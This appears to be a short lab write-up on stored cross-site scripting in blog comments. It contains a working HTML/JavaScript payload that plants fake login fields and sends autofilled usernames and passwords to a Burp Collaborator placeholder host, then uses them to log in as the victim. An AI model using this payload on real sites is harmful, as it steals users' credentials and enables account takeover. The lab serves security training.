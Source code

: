 ## Exploiting cross-sute scripting to capture passwords

### Objective:
This lab contains a **Stored XSS** vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

### Security Weakness:

### Exploitation Methodology:
1. Using burp suite professional, go to the collaborator tab
2. Click "Copy to Clipboard" to copy unique Burp Collaborator payload to your clipboard
3. Use the following payload in a blog comment, inserting your burp collaborator subdomain where indicated:
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
	   method: 'POST',
	   mode: 'no-cors',
	   body:username.value+':'+this.value
});">
```
4. This script will make anyone who views the comment issue a POST request containing the username and password to your subdomain of the public collaborator server.
5. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
6. Take a note of the value of the victim's username and password in the POST body.
7. Use the credentials to log in as the victim user.

### Insecure Code:

### Secure Code:
